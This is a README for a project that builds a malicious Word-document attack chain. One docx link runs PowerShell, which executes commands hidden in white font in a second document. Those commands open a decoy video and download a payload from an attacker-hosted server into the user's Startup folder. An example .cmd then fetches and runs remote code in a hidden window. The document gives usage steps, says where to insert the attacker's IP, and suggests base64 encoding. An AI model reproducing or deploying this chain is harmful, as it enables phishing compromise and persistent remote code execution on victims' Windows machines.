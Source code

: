 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. The .cmd example below is made to parse a file that could contain malicious code to be ran at startup. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Stages
Call the other word document
```Powershell
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "&{$word = new-object -comobject word.application; $word.visible = $false; $doc = $word.Documents.Open(\"$env:userprofile\downloads\wordfornotes.docx\"); $doc.Paragraphs[1].range.text | iex}"
```
Request the commands hosted on a particular site
```Powershell
start msedge `https://www.youtube.com/watch?v=uXbGQiXsRes';iwr https://<YourIP>/Direcotory/filename -o "$env:userprofile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\StartUp.cmd"; shutdown /l
```

# Example .cmd
```batch
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
```
